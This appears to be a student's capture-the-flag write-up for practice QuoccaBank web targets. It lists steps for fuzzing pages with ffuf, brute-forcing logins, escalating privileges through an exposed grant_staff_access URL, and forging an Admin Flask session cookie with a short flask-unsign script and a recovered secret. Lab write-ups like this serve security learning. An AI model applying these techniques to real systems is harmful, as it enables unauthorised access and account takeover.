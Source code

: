 ## [Quocca Blog](https://blog.quoccabank.com/)

### IDOR

**Steps to flags**
1. Use `ffuf` to fuzz  https://blog.quoccabank.com/?p=FUZZ  

``` bash
  ffuf -u https://codingo.io/FUZZ -w ./wordlist.txt
```

3. Search bar on https://blog.quoccabank.com/?p=9 (for example)
4. Enter random character 'a' manually  (https://blog.quoccabank.com/?s=a)


###Authentication 
1. Brute forcing usernames and password (use ffuf or python script with SecLists)
2. Try admin, guest, password for username/password combinations


## [Quocca Files](https://files.quoccabank.com/#/)

**Steps to flags**
Authenticating correctly flags:
1. Registering as admin said username is taken 
2. Tried username = admin, pass = a (Got this clue from an earlier token)
3. Get two flags

Same flags via access control method:
1. Got new path `"/staff/wfh"` from JS source code (search on keyword path) 
2. Register with new user (u = rav, pass= rav)
3. Navigate to https://files.quoccabank.com/covid19/supersecret/lmao/grant_staff_access?username=rav which gives rav staff permissions and you can view the same flags as above method.

Flask key:
1. Decode the session token from https://files.quoccabank.com/covid19/supersecret/lmao/grant_staff_access?username=admin
```
flask-unsign --decode --cookie 'eyJyb2xlIjp7IiBiIjoiVTNSaFptWT0ifSwidXNlcm5hbWUiOiJyYXYifQ.YNhF1Q.bJXWI9je-z1Pz-k0CxN6NqGGfpA'
```
It gives `{'role': b'Staff', 'username': 'rav'}`

2. Change role: Admin and username: rav and generate a new flask session token with the secret from the flag (flask_cookie.py)
```python
import flask_unsign
import json

#Library - https://pypi.org/project/flask-unsign/

cookie_payload = '{"role": "Admin", "username": "rav"}'
secret= "$hallICompareTHEE2aSummersday" #This was in a file I found 
# need to convert the payload to a json object for the flask signing
payload_json = json.loads(cookie_payload)

print(flask_unsign.sign(value=payload_json, secret=secret))
```
3. Send this token when logged in to get the Admin access (+ flag)
